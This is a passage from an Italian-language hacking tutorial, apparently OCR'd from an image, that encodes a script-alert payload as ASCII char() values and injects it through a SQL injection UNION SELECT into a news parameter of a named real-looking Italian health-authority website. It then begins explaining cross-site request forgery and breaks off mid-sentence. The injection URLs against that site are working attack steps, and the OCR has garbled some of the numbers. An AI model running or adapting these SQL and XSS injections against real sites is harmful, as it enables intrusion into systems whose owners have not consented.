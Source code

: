 60 115 99 114 105 112 116 62 97 108 101 114 116 40 39 120 115 115 98 121 88 97 68 111 83 39

41 60 115 99 114 105 112 116 62

bene.
ora sfruttiamo un po' di conoscenze in ambito sql, cmoe sappiamo dovremo separare i numeri

da virgole, al posto degli spazi in questo modo:

60,115,99,114,105,112,116,62,97,108,101,114,116,40,39,120,115,115,98,121,88,97,6 8,111,83,39,

41,60,115,99,114,105,112,116,62

ora possiamo metterlo dentro il nostro comandino magico..

char(60,83,67,82,73,80,84,62,97,108,101,114,116,40,39,120,115,115,98,121,120,97, 100,111,115,

39,41,60,47,115,99,114,105,112,116,62)

ed ora..bhe, riprendiamo la nostra SQL
ex.
http://www.aslromah.it/news/home_notizia.php?ID_News=-99%20union%20all%20select%201,2,3,4,5,

6,7,8,910,11,12--

leggiamo il numero in cui printera i risultati, nel nostro caso il 4, ed inseriamo il codice

ascii.ORA dovremmo avere:

http://www.aslromah.it/news/home_notizia.php?ID_News=-99%20union%20all%20select%201,2,3,char

(60,83,67,82,73,80,84,62,97,108,101,114,116,40,39,120,115,115,98,121,120,97,100, 111,115,39,4

1,60,47,115,99,114,105,112,116,62),5,6,7,8,9,10,11,12--

linkate..eh...puff
appere il nostro alert dentro l'SQL. Semplicemente inutile ma.. divertente.


Code:
[!] CSRF o XSRF: Cross Site Request Forgery


Ora che abbiamo concluso con le XSS vorrei presentare un attacco simile ma non certamente

uguale alle XSS, piÃ¹ potente Ã¨ piÃ¹ dannoso per un ignara vittima.

Innanzitutto bisogna capire la sostanziale differernza tra le XSS e le CSRF: Ã¨ molto

semplice, mentre le Xss si basano sullo spingere un determinato user a cliccare su un url

maligna in modo tale da prelevare i suoi cookies o le sue informazioni di accesso ad un sito

web, Le CSRF si basano sullo sfruttamento di un user vittima che, essendo loggato ad un

determinato sito, ci permette di eseguire codici maligni attraverso il suo stesso account.

Proprio per questo Ã¨ una tecnica piÃ¹ difficile da individuare ed eliminare per un admin,

poichÃ¨ tutte le azioni commesse risulteranno eseguite da un user qualunque(la nostra

vittima,che non sospetta di nulla).

Riassumendo quindi le Cross Site Request Forgery ci permettono di spedire qualunque tipo di
